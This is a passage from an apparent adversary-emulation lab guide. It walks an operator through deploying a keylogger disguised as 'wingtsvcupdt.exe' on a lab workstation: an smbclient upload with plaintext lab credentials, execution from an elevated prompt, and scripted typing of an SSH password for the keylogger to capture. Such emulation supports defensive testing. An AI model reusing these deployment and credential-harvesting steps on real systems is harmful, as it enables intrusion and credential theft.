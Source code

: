 <br>

## Test 6: Keylogger

:microphone: `Voice Track:`

Test 6 emulates Turla installing a custom keylogger (`wingtsvcupdt.exe`) on
`Adalwolfa`'s workstation and harvesting credentials from the system.

---

### :biohazard: Procedures

:arrow_right: Start a new RDP session to `khabibulin (10.20.20.104)` as
`adalwolfa` (if no existing RDP from a previous test):

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
the keylogger to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put keylogger.exe Windows\Temp\wingtsvcupdt.exe'
```

:arrow_right: Return to your RDP session to `khabibulin (10.20.20.104)` as `adalwolfa`.

* Open an elevated Windows Command Prompt and execute the following command to
start the keylogger:

```bat
C:\Windows\Temp\wingtsvcupdt.exe
```

* NOTE: This should hang the terminal with the following output:
    * >```
      >Monitoring window information...
      >Set hooks
      >```

* Simulate activity as Adalwolfa:
  * Minimize the elevated Windows Command Prompt
  * Open Edge.
    * :heavy_exclamation_mark: **Type in full, do not copy or autocomplete,** 
    <http://kagarov/index.html> into the address bar and press enter.
  * Open a new non-admin PowerShell terminal
    * **Type do not copy** the SSH command: `ssh adalwolfa@10.20.10.23`
    * **Type do not copy** the SSH password `Password2!` when prompted.
    * Within the SSH session, **type do not copy** the follow commands as
    `Adalwolfa`:
        1. `sudo nano /var/www/html/index.html`
        2. Go to line 198 with `CTRL + SHIFT + -` then type 198
        3. Replace `Apache2 Ubuntu Default Page` with `Adalwolfa's Page`
        4. save the file with `CTRL + X`, `Y`, `enter`
        5. Type `exit` to exit from the SSH session
